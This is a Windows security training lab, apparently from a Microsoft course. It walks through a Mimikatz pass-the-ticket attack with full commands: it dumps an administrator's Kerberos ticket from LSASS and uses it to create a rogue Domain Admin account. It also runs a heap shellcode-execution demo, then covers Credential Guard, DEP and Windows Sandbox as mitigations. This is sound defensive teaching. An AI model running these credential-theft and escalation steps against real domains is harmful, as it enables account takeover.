

<!-- TOC -->
# LAB 7: Application Vulnerabilities
## Abstract and learning objectives  

This training is designed to make you practice the concepts learned in the lectures.  
Learning objectives:  
- Deploy credential theft protections
- Apply application mitigation techniques

## Overview 

This lab is a very simple environment consisting in a Windows 11 client and Windows Server 2022 servers. Both are members of an Active Directory domain northwindtraders.com. The server provides different services to support lab exercises. 

>[!ALERT] **DISCLAIMER**   
- Unless otherwise noted, the example companies, organizations, products, domain names, e-mail addresses, logos, people, places, and events depicted herein are fictitious, and no association with any real company, organization, product, domain name, e-mail address, logo, person, place or event is intended or should be inferred. Complying with all applicable copyright laws is the responsibility of the user. Without limiting the rights under copyright, no part of this document may be reproduced, stored in or introduced into a retrieval system, or transmitted in any form or by any means (electronic, mechanical, photocopying, recording, or otherwise), or for any purpose, without the express written permission of Microsoft Corporation.   
- Microsoft may have patents, patent applications, trademarks, copyrights, or other intellectual property rights covering subject matter in this document. Except as expressly provided in any written license agreement from Microsoft, the furnishing of this document does not give you any license to these patents, trademarks, copyrights, or other intellectual property.
- The names of manufacturers, products, or URLs are provided for informational purposes only and Microsoft makes no representations and warranties, either expressed, implied, or statutory, regarding these manufacturers or the use of the products with any Microsoft technologies. The inclusion of a manufacturer or product does not imply endorsement of Microsoft of the manufacturer or product. Links may be provided to third party sites. Such sites are not under the control of Microsoft and Microsoft is not responsible for the contents of any linked site or any link contained in a linked site, or any changes or updates to such sites. Microsoft is not responsible for webcasting or any other form of transmission received from any linked site. Microsoft is providing these links to you only as a convenience, and the inclusion of any link does not imply endorsement of Microsoft of the site or the products contained therein.

© 2022 Microsoft Corporation. All rights reserved.

Microsoft and the trademarks listed at <https://www.microsoft.com/en-us/legal/intellectualproperty/Trademarks/Usage/General.aspx> are trademarks of the Microsoft group of companies. All other trademarks are property of their respective owners.

===

## Exercise 1: Credential theft

Duration: 30 minutes 

One of the most known credential theft tool is Mimikatz (https://github.com/gentilkiwi/mimikatz). The tool is able to extract all kind of credential, secret or key from the memory of lsass. In this lab, we will be demonstrating the Pass-the-Ticket technique to steal the kerberos TGT of an admin user. The ticket will be reused to create a new administrative account on the domain controller **WIN-DC1**.

Synopsis: In this exercise, you will open a session with `NORTHWIND\Administrator` account to simulate an admin session or, a service running under high privileges. Then, you will use Mimikatz to steal the TGT and re-inject it into the attacker's session. Finally, you will use the dsadd command to create a new admin user.

### Task 1: Open an administrative session

In this task, you open a session on **WIN-CLI2** under **NORTHWIND\Administrator** which is the built-in Administrator account for the domain.

1. []Sign in **@lab.VirtualMachine(WIN-CLI1).SelectLink** with following credentials:  
	Username: **+++WIN-CLI1\karen+++**  
	Password: **+++1LoveSecurity!+++**

1. []Start **Hyper-V Manager** and ensure nested VM **WIN-CLI2** is started.

1. []When **WIN-CLI2** is started, sign in with following credentials:  
	Username: **+++NORTHWIND\Administrator+++**  
	Password: Please type the password

1. []Disconnect your session  
    - If you’re running the VM in Azure or Hyper-V enhanced mode, open the **Start** menu then, select the power icon in the bottom right corner and click on **Disconnect**.  
    - If you’re running the VM in Hyper Basic mode, open the Start menu then, select the account icon in the bottom left corner and click on **Switch user**.

You have completed the session opening task. You can now move on to extracting the TGT.

===

### Task 2: Extract Administrator's TGT
In this task, you will use Mimikatz to extract the TGT.

1. []On **WIN-CLI2**, sign in with following credentials:  
	Username: **+++NORTHWIND\david+++**  
	Password: Please type the password 

1. []Right-click the **Start** menu and select **Windows Terminal (Admin)**.
    
    *Note: you will prompted to enter david's password*

1. []Type in the following commands to create a folder for tickets and start Mimikatz.

    ```console
    mkdir C:\tickets
    cd C:\tickets
    Mimikatz.exe
    ```

1. []Inside the Mimikatz command prompt, enter the following commands:
    ```console
	privilege::debug
    sekurlsa::tickets /export
    exit
    ```

    The first command will enable the SeDebug privilege.

    The second command will scan LSASS memory for kerberos tickets. Each ticket is exported in a .kirbi file in the current folder.

>[!important]Keep the session open for the next task.

You have completed the TGT extraction task. You can now move on to importing the tikcet into the attacker's session.

===

### Task 3: Use extracted ticket to gain privilege
In this task, you will import the TGT into attacker's session.

1. []If not done already, sign in **WIN-CLI2** with following credentials:  
	Username: **+++NORTHWIND\david+++**  
	Password: Please type the password 

1. []Right-click the **Start** menu and select **Windows Terminal (Admin)**.
    
    *Note: you will prompted to enter david's password*

1. []Run the following command to create a new admin account in the Active Directory domain.

    ```console
    dsadd user "CN=rogueAdmin,CN=Users,DC=northwindtraders,DC=com" -disabled no -pwd MyStr0ng!Mdp -memberof "CN=Domain Admins,CN=Users,DC=northwindtraders,DC=com"
    ```

    >You will observe an Access Denied error message. This is expected as david is a regular user.

1. []Open C:\tickets in the file explorer and locate the file containing `Administrator@krbtgt`in the name. That is the TGT for Administrator. Keep the file explorer window opened.

1. []Type in the following commands to start Mimikatz:

    ```console
    cd C:\tickets
    Mimikatz.exe
    ```

1. []Inside the Mimikatz command prompt, enter the following commands:
    ```console
	privilege::debug
    kerberos::ptt file_name.kirbi
    exit
    ```
    >_Replace file_name.kirbi with the file name_

    The kerberos::ptt command imports the ticket into the current user tickets list.

1. []Run the following command to create a new admin account in the Active Directory domain.

    ```console
    dsadd user "CN=rogueAdmin,CN=Users,DC=northwindtraders,DC=com" -disabled no -pwd MyStr0ng!Mdp -memberof "CN=Domain Admins,CN=Users,DC=northwindtraders,DC=com"
    ```

    >This time the command will succeed, exhibiting a privilege escalation.

1. []Sign in **@lab.VirtualMachine(WIN-DC1).SelectLink** with following credentials   
	Username: **+++NORTHWIND\Administrator+++**   
	Password: Please type the password

1. []Open the **Active Directory Users and Computers** console and expand the nodes **northwindtraders.com** / **Users**

    Inside the **Users** container, you should find the **rogueAdmin** account.

1. []Double-click on **rogueAdmin** and select the **Member Of** tab.

    The **Domain Admins** group should be present in the list.

You have completed the privilege escalation task. You can now move on to the remediation task.

===

## Task 4: Enable Credential Guard

In this task, you will enable Credential Guard to prevent extraction of Kerberos tickets from lsass.exe private memory. In this lab, you will enable it from the local GPO. In the real world, IT staff would enable the feature through a domain GPO.

1. []Sign in **WIN-CLI2** with following credentials:  
	Username: **+++NORTHWIND\Administrator+++**  
	Password: Please type the password

1. []Right-click the **Start** menu and select **Run**. then, type **gpedit.msc** and hit **Enter**. 

1. []Using the course material and public documentation, modify the configuration of the Virtualization Based Security policy to prevent disabling the **CredentialGuard** from the operating system.

1. []Restart the **WIN-CLI2** VM.

---

**Evaluation**

1. Detail the steps you performed to enable Credential Guard.

    1. From the Local Group Policy Editor console, go to **Computer Configuration** > **Administrative Templates** > **System** > **Device Guard**.
    1. Select **Turn On Virtualization Based Security**, and then select the **Enabled** option.
    1. In the **Credential Guard Configuration** box, select **Enabled with UEFI lock**.
    1. Select **OK**, and then close the Group Policy Management Console.

1. After machine **WIN-CLI2** restarts, how can you ensure CredentialGuard is running?

    1. Start msinfo32.exe
    1. In the left-most panel, select the **System Summary** node. In the right-most panel, scroll down the list of settings until **Virtualization-base Security** is displayed. **Virtualization-based security Services Running** represents the VBS-enabled features currently running. It should  include **Credential Guard**.

---

You have completed the CredentialGuard enablement task. You can now move on to assessing the new configuration.

===

## Task 5: Assess remediated environment

1. []On **WIN-CLI2**, sign in with following credentials:  
	Username: **+++NORTHWIND\david+++**  
	Password: Please type the password 

1. []Right-click the **Start** menu and select **Windows Terminal (Admin)**.
    
    *Note: you will prompted to enter david's password*

1. []Run the following commands:

    ```console
    mkdir C:\tickets
    cd C:\tickets
    Mimikatz.exe
    ```

1. []Inside the Mimikatz command prompt, enter the following commands:
    ```console
	privilege::debug
    sekurlsa::tickets
    exit
    ```

This time the tool is still able to list the tickets but, keys are displayed as encrypted. Credential Guard prevent long term secrets from staying in a memory space accessible by an attacker.

You have completed the credential theft exercise. Congratulations!

===

# Exercise 2: Protect vulnerable applications

Duration: 30 minutes 

In this exercise, you will experiment with the mitigation techniques for vulnerable applications. You'll see how to mitigate a simple remote code execution vulnerability.

The source code for the vulnerable program is:  
```c
#include <Windows.h>
#include <stdio.h>

typedef int(__cdecl* func)(int a, int b);

/* assembly code for add function */
const char code[] = "\x55\x8b\xec\x8b\x45\x08\x03\x45\x0c\x8b\xe5\x5d\xc3";

int main()
{
    char* dataBuffer;
    int	i;

    /* Buffer allocation */
    dataBuffer = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, 128);

    /* Somehow, attacker was able to inject the  payload*/
    CopyMemory(dataBuffer, code, strlen(code));

    /* Simulation of a buffer overflow exploit. Control is transfered to attacker's code */
    func function = dataBuffer;
    i = function(1, 2);


    printf("%d\n", i);

    return 0;
}
```

The program simulates :
    * injection of executable code in a memory location allocated on the heap.
    * transfer of execution to this section.


Synopsis: You will work the **WIN-CLI1** machine. You will test the vulnerable program and then, deploy mitigations. 

===

### Task 1: Run the vulnerable program
In this task, you will experiment with the vulnerable application. 

1. []Sign in **@lab.VirtualMachine(WIN-CLI1).SelectLink** with following credentials:  
	Username: **+++WIN-CLI1\karen+++**  
	Password: Please type the password 

1. []Right-click the **Start** menu and select **Windows Terminal**.

1. []Run the vulnerable application.

    ```console
    C:\Lab\LAB7EX2\04_DEP.exe
    ```

    You should obtain a result similar to


You have completed the vulnerable program test task. You can now move on to remediation.

===

### Task 2: Deploy the mitigation

In this task, you will force DEP for the vulnerable application.

1. []Sign in **@lab.VirtualMachine(WIN-CLI1).SelectLink** with following credentials:  
	Username: **+++WIN-CLI1\karen+++**  
	Password: Please type the password 

1. []Open the **Start** menu and search for the **Settings** application.

1. []In the **Find a setting** text box located in the top-left corner of the window, enter **App & browser control** and select the only search result proposed.

1. []In the **App & browser control** page, scroll down to the **Exploit protection** section and select **Exploit protection settings**

1. []In the **Exploit protection** page, select the **Program settings** tab.

1. []Select **Add program to customize** and select **Add by program name**.

1. []In the **Enter program name** dialog, type in **04_DEP.exe** and click **Add**.

1. []In the **Program settings: 04_DEP.exe** window, scroll down to the **Data Execution Prevention (DEP) section** and click **Override system settings**. Then, leave the setting to **On**.

1. []Click **Apply** and validate the elevation request.

You have completed the remediation task. You can now move on to the assessing phase.

### Task 3: Assess remediated environment

In this task, you will observe what happens with the vulnerable application after you enabled the mitigation. The application will crash. You 

1. []Sign in **@lab.VirtualMachine(WIN-CLI1).SelectLink** with following credentials:  
	Username: **+++WIN-CLI1\karen+++**  
	Password: Please type the password 

1. []Setup Windows Error Reporting

    * Set the following values in registry:
    ```-nocopy
    Path       : HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\Windows Error Reporting\LocalDumps
    Value name : DumpType
    Value type : REG_DWORD
    Value      : 2
    ```
    _Create the LocalDumps key if it does not exist._

1. []Right-click the **Start** menu and select **Windows Terminal**.

1. []Run the vulnerable application.

    ```console
    C:\Lab\LAB7EX2\04_DEP.exe
    ```

    This time, nothing is printed in the console.

1. []Start the **Event Viewer** console and open the **Application** event log.

1. Search for **1000** events which is written when an application crashes. You should find one like

1. []Open `%LOCALAPPDATA%\CrashDumps` and open one of the 04_DMA.exe dumps. This will open the dump with the Windows Debugger.

1. []In the debugger, enter `.exr -1`. This command will display the exception which triggered the crash and the faulting address.

    To determine why the memory access was denied (access violation) you need to know what are the protections for the memory page corresponding to the faulting address.

1. []In the debugger, enter `!address addr`, addr being the faulting address. This command will display the protections for the corresponding virtual memory area.

---

**Evaluation**

1. Copy-paste or capture a screenshot of one the **1000** event.  
    

1. What is the exception code?
    
    The exception code is 0xc0000005.
    
1. What does that exception code means?

    This exception code is an access violation.

1. What is the protection of the corresponding memory area?

    PAGE_READWRITE

1. Explain why an access violation exception was thrown.

    Processor tried to execute code at a location which is marked for READ and WRITE only (PAGE_READWRITE), but execution is denied.

---

You have completed this exercise. Congratulations!

===

# Exercise 3: Windows Sandbox

Duration : 30 minutes

In this exercise, you will create a Windows sandbox.

## Task 1: Install the feature


1. []Sign in **@lab.VirtualMachine(WIN-CLI1).SelectLink** with following credentials:  
	Username: **+++WIN-CLI1\karen+++**  
	Password: Please type the password 

1. []Open the **Start** menu and type **Turn Windows Features on or off** to access the Windows Optional Features tool. Select **Windows Sandbox** and then **OK**. Restart the computer if you're prompted.

   > Or, to enable Sandbox using PowerShell, open PowerShell as Administrator and run **Enable-WindowsOptionalFeature -FeatureName "Containers-DisposableClientVM" -All -Online**.

1. Locate and select **Windows Sandbox** on the Start menu to run it for the first time.

===

## Task 2: Create a sandbox

In this task, you will create the configuration file for the sandbox.

1. []Sign in **@lab.VirtualMachine(WIN-CLI1).SelectLink** with following credentials:  
	Username: **+++WIN-CLI1\karen+++**  
	Password: Please type the password 

1. []Using public documentation, create a sandbox configuration file (*.wsb file) which meets the following requirements:
    * Networking is disabled
    * Support for the GPU is enabled
    * We want the C:\Lab\WinsecLab folder on the host to be mapped read-only to C:\Lab\WinsecLab in the sandbox
    * Video input and audio input are disabled.
    * When the sandbox is ready, it launches notepad.

1. []Save your file with a `.wsb` extension. You can run your sandbox by just double-clicking on the configuration file.

---

**Evaluation**

1. Copy-paste the content of your *.wsb file or, attach the file with your answer form.

    ```XML
    <Configuration>
        <VGpu>Enable</VGpu>
        <Networking>Disable</Networking>
        <AudioInput>Disable</AudioInput>
        <VideoInput>Disable</VideoInput>
        <MappedFolders>
            <MappedFolder>
            <HostFolder>C:\Lab\WinsecLab</HostFolder>
            <SandboxFolder>C:\Lab\WinsecLab</SandboxFolder>
            <ReadOnly>true</ReadOnly>
            </MappedFolder>
        </MappedFolders>
        <LogonCommand>
            <Command>notepad.exe</Command>
        </LogonCommand>
    </Configuration>
    ```

---

You have completed this exercise. Congratulations!